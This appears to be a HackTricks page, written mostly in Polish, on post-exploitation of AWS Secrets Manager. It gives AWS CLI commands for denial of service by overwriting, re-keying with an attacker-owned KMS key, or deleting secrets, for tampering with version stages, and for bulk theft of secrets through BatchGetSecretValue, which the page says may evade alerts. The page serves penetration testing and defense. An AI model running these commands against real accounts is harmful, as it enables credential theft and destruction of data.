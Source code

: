 # AWS - Secrets Manager Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

Aby uzyskać więcej informacji sprawdź:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Odczyt sekretów

The **secrets themselves are sensitive information**, [check the privesc page](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md) to learn how to read them.

### DoS - zmiana wartości sekretu

Zmieniając wartość sekretu możesz **spowodować DoS we wszystkich systemach, które zależą od tej wartości.**

> [!WARNING]
> Zwróć uwagę, że poprzednie wartości również są przechowywane, więc łatwo jest po prostu wrócić do poprzedniej wartości.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Jeśli attacker ma uprawnienie secretsmanager:UpdateSecret, może skonfigurować secret tak, aby używał KMS key będącego własnością attackera. Klucz ten jest początkowo skonfigurowany w taki sposób, że każdy może uzyskać do niego dostęp i go używać, więc aktualizacja secret z nowym KMS key jest możliwa. Gdyby klucz nie był dostępny, secret nie mógłby zostać zaktualizowany.

Po zmianie KMS key dla secret, attacker modyfikuje konfigurację swojego klucza tak, by tylko on miał do niego dostęp. W ten sposób w kolejnych wersjach secret będzie szyfrowany nowym kluczem, a ponieważ nikt nie będzie miał do niego dostępu, możliwość odzyskania secret zostanie utracona.

Ważne jest, aby zauważyć, że ten brak dostępu wystąpi dopiero w późniejszych wersjach, po zmianie zawartości secret, ponieważ aktualna wersja jest wciąż zaszyfrowana oryginalnym KMS key.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

Minimalna liczba dni potrzebna do usunięcia secretu to 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Możliwe jest przywrócenie sekretu, co pozwala na odzyskanie sekretów, które zostały zaplanowane do usunięcia, ponieważ minimalny okres usuwania sekretów to 7 dni, a maksymalny to 30 dni. W połączeniu z uprawnieniem secretsmanager:GetSecretValue umożliwia to odzyskanie ich zawartości.

Aby odzyskać sekret, który jest w procesie usuwania, możesz użyć następującego polecenia:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Ta akcja pozwala usunąć politykę zasobów, która kontroluje, kto może uzyskać dostęp do sekretu. Może to doprowadzić do DoS, jeśli polityka zasobów została skonfigurowana tak, aby umożliwiać dostęp określonej grupie użytkowników.

Aby usunąć politykę zasobów:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Stany sekretu służą do zarządzania jego wersjami. AWSCURRENT oznacza aktywną wersję, której używają aplikacje, AWSPREVIOUS przechowuje poprzednią wersję, aby w razie potrzeby móc się cofnąć, a AWSPENDING jest używany w procesie rotacji do przygotowania i weryfikacji nowej wersji przed ustawieniem jej jako aktualnej.

Aplikacje zawsze odczytują wersję oznaczoną AWSCURRENT. Jeśli ktoś przeniesie tę etykietę na niewłaściwą wersję, aplikacje będą używać nieważnych poświadczeń i mogą przestać działać.

AWSPREVIOUS nie jest używany automatycznie. Jednak jeśli AWSCURRENT zostanie usunięty lub błędnie przypisany, może się wydawać, że wszystko nadal działa na poprzedniej wersji.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../../banners/hacktricks-training.md}}





### Mass Secret Exfiltration via BatchGetSecretValue (up to 20 per call)

Wykorzystaj API Secrets Manager BatchGetSecretValue, aby pobrać do 20 sekretów w jednym żądaniu. To może znacznie zmniejszyć liczbę wywołań API w porównaniu z iterowaniem GetSecretValue dla każdego sekretu. Jeśli używane są filters (tags/name), wymagane jest również uprawnienie ListSecrets. CloudTrail nadal rejestruje jedno zdarzenie GetSecretValue dla każdego sekretu pobranego w pakiecie.

Wymagane uprawnienia
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue dla każdego docelowego sekretu
- secretsmanager:ListSecrets jeśli używasz --filters
- kms:Decrypt na CMK używanych przez sekrety (jeśli nie używasz aws/secretsmanager)

> [!WARNING]
> Zwróć uwagę, że uprawnienie `secretsmanager:BatchGetSecretValue` samo w sobie nie wystarcza do pobrania sekretów — potrzebujesz także `secretsmanager:GetSecretValue` dla każdego sekretu, który chcesz pobrać.

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate przez filtry (tag key/value lub name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Obsługa częściowych niepowodzeń
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Wpływ
- Szybkie „smash-and-grab” wielu sekretów przy mniejszej liczbie wywołań API, potencjalnie omijające alerty skonfigurowane na wykrywanie skoków GetSecretValue.
- Logi CloudTrail nadal zawierają jedno zdarzenie GetSecretValue na każdy sekret pobrany w ramach partii.
